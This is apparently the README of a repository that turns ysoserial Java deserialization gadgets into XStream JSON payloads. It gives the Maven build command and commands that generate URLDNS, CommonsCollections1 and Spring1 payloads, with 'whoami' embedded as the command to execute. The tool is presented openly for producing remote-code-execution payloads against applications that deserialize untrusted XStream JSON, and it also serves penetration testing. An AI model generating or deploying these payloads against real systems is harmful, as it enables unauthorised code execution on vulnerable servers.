 
# ysoserial gadgets in XStream json format


## Description

The repo contains ysoserial gadgets, get transformed into XStream serialization but in __json__ format.

The json equivalent of the ysoserial gadgets can be generated by running the files after compiling it.

The original ysoserial repo : https://github.com/frohoff/ysoserial

The repo conatining xstream gadgets in xml format : https://github.com/chudyPB/XStream-Gadgets

In XStream, json functionality can be implemented using jettison. More information can be seen in https://x-stream.github.io/json-tutorial.html.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Generating Payload

The /example folder contains generated payloads.

To create URLDNS  equivalent json payload:  

```mvn exec:java  -Dexec.mainClass="ysoserial.payloads.URLDNS" -Dexec.args="https://google.com"```

To create Collections1 equivalent json payload:

```mvn exec:java  -Dexec.mainClass="ysoserial.payloads.CommonsCollections1" -Dexec.args="whoami"```

To create Spring1 equivalent json payload:

```mvn exec:java  -Dexec.mainClass="ysoserial.payloads.Spring1" -Dexec.args="whoami"```
